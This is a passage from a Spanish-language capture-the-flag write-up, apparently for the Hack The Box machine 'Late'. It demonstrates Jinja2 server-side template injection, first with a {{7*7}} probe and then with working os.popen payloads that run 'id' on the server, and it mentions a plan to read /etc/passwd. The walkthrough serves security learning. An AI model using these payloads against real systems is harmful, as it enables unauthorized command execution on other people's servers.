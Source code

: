Vemos que algunos caracteres no nos lo interpreta correctamente. Podríamos tratar de hacer una inyección SSTI ***Server Side Template Injection*** con la cadena `{{7*7}}`:

![](/assets/images/htb-late/late6.png)

```bash
❯ cat results1.txt
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: results1.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <p>49
   2   │ </p>
───────┴───────────────────────────────────────────────────────
```

Observamos que nos devuelve un archivo cuyo tenido tiene el valor **49**, el resultado de la multiplicación de **7x7**. El sitio es vuelnerablle a ***SSTI Jinja2 - Basic injection*** [Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---basic-injection). Vamos a ejecutar algunos de estos payloads para validar si podemos ejecutar algún comando a nivel de sistema:

```bash
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

![](/assets/images/htb-late/late7.png)

```bash
❯ cat results3.txt
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: results3.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <p>uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
   2   │ 
   3   │ </p>
───────┴───────────────────────────────────────────────────────────────
```

Vemos que podemos ejecutar comandos a nivel de sistema. Vamos a tratar de leer el `/etc/passwd` para ver los usuarios del sistema:

![](/assets/images/htb-late/late9.png)
